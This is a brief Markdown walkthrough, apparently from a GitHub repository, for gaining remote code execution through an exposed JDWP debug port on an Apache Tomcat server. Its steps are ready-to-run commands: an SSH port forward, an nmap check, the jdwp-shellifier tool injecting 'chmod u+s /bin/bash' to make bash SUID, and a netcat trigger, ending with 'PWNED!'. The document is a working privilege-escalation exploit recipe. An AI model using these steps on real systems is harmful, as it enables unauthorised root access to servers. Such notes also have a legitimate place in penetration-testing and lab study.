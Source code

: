 ### Java Debug Wire Protocol (JDWP) Remote Code Execution

### REQUIREMENTS: The apache tomcat server has the debugging enabled: jdwp=transport=dt_socket,address=localhost:8000,server=y

### Tools: https://github.com/IOActive/jdwp-shellifier

### STEPS:

#### 1) Verify that the debug service is running on the target machine on port 8000 and 8005 tomcat service

    ss -tulpn 

#### 2) If the service runs locally, do local port forwarding to have access to the service

    ssh -L 8888:127.0.0.1:8000 USER@TARGET_IP 

#### 3) Verify that you have access to the service

    sudo nmap -sC -sV -p 8888 127.0.0.1 

#### 4) Download the exploit

#### 5) Run the exploit

    python2 jdwp-shellifier.py -t 127.0.0.1 -p 8888 --cmd 'chmod u+s /bin/bash' 

#### 6) Target session: Trigger a connection on target ssh session AFTER you run the exploit to trigger the RCE

    nc localhost 8005 

#### 7) PWNED!
